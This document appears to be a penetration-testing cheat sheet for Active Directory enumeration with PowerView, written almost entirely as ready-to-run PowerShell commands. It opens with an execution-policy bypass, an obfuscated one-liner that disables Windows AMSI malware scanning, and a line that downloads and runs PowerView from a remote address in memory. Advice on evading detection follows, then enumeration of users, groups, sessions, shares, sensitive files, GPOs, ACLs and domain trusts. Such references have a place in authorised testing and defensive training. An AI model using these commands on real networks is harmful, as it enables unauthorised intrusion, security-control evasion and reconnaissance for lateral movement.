 # Execution Policy Bypass:

```powershell
powershell -ep bypass
```

# Bypass AMSI:

```
sET-ItEM ('V'+'aR' + 'IA' + 'blE:1q2' + 'uZx')([TYpE]("{1}{0}"-F'F','rE'));(GeT-VariaBle("1Q2U" + "zX") -VaL)."A`ss`Embly"."GET`TY`Pe"(("{6}{3}{1}{4}{2}{0}{5}" -f 'Util','A','Amsi','.Management.','utomation.','s','System'))."g`etf`iElD"(("{0}{2}{1}" -f 'amsi','d','InitFaile'),("{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'))."sE`T`VaLUE"(${n`ULl},${t`RuE})

```

#PowerView from remote into memory:

```powershell
iex (iwr 'https://<remote_address>/PowerView.ps1')
```

# Enumerate domain

```powershell
Get-NetDomain
Get-NetDomain -Domain <domain>
```

# Enumerate domain-controllers

```powershell
Get-NetDomainController
Get-NetDomainController -Domain <domain>
```

# Enumerate Policies

```powershell
Get-DomainPolicy
(Get-DomainPolicy)."Policy Name"
```

# Enumerate Users:

```powershell
Get-NetUser
Get-NetUser -Username <username>
Get-UserProperty
Get-UserProperty -Properties <propertiy>
Find-UserField -SearchField <field> -SearchTerm "<grepable term>"
Get-UserProperty -Properties samaccountname,<property> |Select-String -Pattern  "<grapable term>"
```

* Hint to avoid detection:

    * Look for users with pwdlastset that is not very old;
    * Look for users that logoncount is big;
    * Look for users that badpwdcount is non-zero or a big numer;


# Enumerate Computer objets:

```powershell
Get-NetComputer
Get-NetComputer -FullData
Get-NetComputer -Computer <computername>
Get-NetComputer -<Property> <property>
Get-NetComputer |Out-String -Stream | Select-String -Pattern "<pattern1>","<pattern2>",...
Get-NetComputer -FullData | select term1,term2,...
Get-NetComputer -Fulldata |Select  dnshostname,distinguishedname | Out-String -Stream |Select-String -pattern "OU=<organization-unit-name>"
```

## All Computers of a certain Organization Unit 

```powershell
Get-NetComputer -Fulldata |Select  dnshostname,distinguishedname | Out-String -Stream |Select-String -pattern "OU=<organization-unit-name>"
```

# Enumerate live machines

```powershell
Get-NetComputer -Computer <computername|dnshostname> -Ping
```

# Enumerate Groups in the current domain

```powershell
Get-NetGroup
Get-NetGroup -Domain <domain>
Get-NetGroup -Domain <domain> -FullData | select <term>
Get-NetGroup *admin*
Get-NetGroup -FullData | select name |Out-String -Stream |Select-String -Pattern "admin"
```

## Enumerate membership

```powershell
Get-NetGroupMember -GroupName "<groupname>" [-Domain "<domain>"] -Recurse // what users are member of certain group
Get-NetGroup -Username "username" // what groups a user is member of
```

# Enumerate Local Groups

```powershell
Get-NetLocalGroup -ComputerName "<computername>" -ListGroups // all localgroups, requires admin priv for non-dc machines
Get-NetLocalGroup -ComputerName "<computername>" -Recurse // All Members of localgroups, requires the same privs of the above
```

# Enumerate Active logged on users on a Computer

```powershell
Get-NetLoggedon -ComputerName "<computername> // requires admin rights"
Get-LastLoggedOn -ComputerName "<computername> // requires admin rights "
Get-LoggedonLocal -ComputerName "<computername> // Requires remote registry enabled, it is enabled by default"
```

# Find Shares

```powershell
Get-NetFileServer // retrieve all file servers on the domain
Invoke-ShareFinder [-Versbose] [-ExcludeIPC -ExcludePrint -ExcludeStandard]
Invoke-FileFinder [-Verbose] // Sensitive files on computers in the domain
```

# Group Policies

```powerview
Get-NetGPO
Get-NetGPO [-ComputerName "<computername>"] [-GPOName "<{OU-UUID}>"] //UUID = gplink uid
Get-NetGPOGroup
Get-NetGroupMember -GroupName <groupname>   
Find-GPOComputerAdmin // users of a localgroup using GPO
Find-GPOComputerAdmin [-ComputerName  "<computername>"]
Find-GPOLocation -UserName <username> // machines where a user is member of a group
```

## GPOs Applied to machines of an specific OU

```powershell
Get-NetGPO -GPOName "{$(Get-NetOU -OUName "<organization_unit_name>" -FullData |select -ExpandProperty gplink | %{ $_.Split("{")[1].Split("}")[0]; })}"
```

# Organization Units:

```powershell
Get-NetOU [-FullData]
```

# ACLS

```powershell
Get-ObjectACL
Get-ObjectACL [-SamAccountName <account_name>] [-ResolveGUIDs]
Get-ObjectACL [-ADSprefix 'ads'] [-ADSPath '<ads_path>'] [-Verbose]
Get-PathAcl -Path "aclpath"  // get acls associated with the path
```

* Most important properties of an ACE:
    * ObjectDN
    * IdentityRefrence
    * ActiveDirectoryRights

## Scan for interesting ACEs

```powershell
Invoke-ACLScanner -ResolveGUIDs
```

# Domain Trusts

* One-way trust 
    
    * The domain B is trusted by domain A, therefore domain B can access resources from domain A, not the other way around

```
A <- B
```

* Two-way trust
    * Both domains trust each othe and therefore they can access each other's resources

```
A <-> B
```

* Transitive Trusts
    * Domain A have a two-way trust with domain B which also has it with domain C, therefore, domain C can access resources from domain A and the other way around is also valid.

```
A <-> B <-> C = A <-> C
```

* Tree-root trust 

    * Created automatically whenever a new domain tree is added to the forest root.

* External Trusts

    * Trust established between two non-root domain from diferent forests
        * not transitive

* Forest trusts
    * Trust established between root domain of different Forests
      * Non-implicit. Always non-Transitive

# Forests are considered a security boundary

**All the intra-forest trusts are automatic**

# Trusts

```powershell
Get-NetDomainTrust
Get-NetForest [-Forest '<forest>']
Get-NetForestDomain [-Forest '<forest>']
Get-NetForestCatalog [-Forest '<forest>']
Get-NetForestTrust [-Forest '<forest>']

```
